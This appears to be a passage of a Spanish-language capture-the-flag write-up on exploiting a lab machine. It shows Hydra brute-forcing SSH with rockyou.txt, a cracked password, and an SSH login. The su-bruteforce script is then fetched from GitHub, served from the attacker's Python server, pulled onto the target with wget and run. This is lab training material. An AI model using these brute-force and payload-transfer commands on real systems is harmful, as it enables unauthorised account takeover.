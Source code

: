 
## Explotación

Dado que la máquina tiene el puerto SSH abierto, planteamos la posibilidad de intentar un ataque de fuerza bruta contra el servicio SSH para el usuario `manchi`. Utilizamos la herramienta Hydra junto con el diccionario `rockyou.txt`:

```bash
hydra -l manchi -P rockyou.txt ssh://10.10.10.2 -V
```

**Captura de pantalla del proceso de Hydra mostrando el intento de autenticación exitoso**.

La contraseña descubierta para el usuario `manchi` fue `lovely`. Con estas credenciales, procedemos a iniciar sesión en SSH:

```bash
ssh manchi@10.10.10.2
```

**Captura de pantalla de la conexión SSH exitosa**.

---

## Post-Explotación

Estando ya dentro del sistema, analizamos posibles vectores de escalada de privilegios. Comenzamos revisando si `manchi` tiene permisos para ejecutar comandos como superusuario con el siguiente comando:

```bash
sudo -l
```

**Captura de pantalla de la salida del comando `sudo -l`**.

En este caso, no encontramos permisos especiales para `manchi`.

### BruteForcing con `su`

Como siguiente paso, optamos por utilizar la herramienta `suBF.sh`, que permite realizar fuerza bruta contra el comando `su` para cambiar a otros usuarios. La herramienta está disponible en el repositorio de GitHub de carlospolop.

1. **Descargamos el archivo `suBF.sh`:**
   ```bash
   wget https://raw.githubusercontent.com/carlospolop/su-bruteforce/master/suBF.sh
   ```

2. **Transferimos el archivo a la máquina objetivo** utilizando un servidor Python:
   ```bash
   python3 -m http.server 8080
   wget http://10.10.10.1:8080/suBF.sh
   ```

3. **Ejecutamos la herramienta** para intentar fuerza bruta en el usuario `seller` con el diccionario `rockyou.txt`:

   ```bash
   ./suBF.sh -u seller -w rockyou.txt
   ```
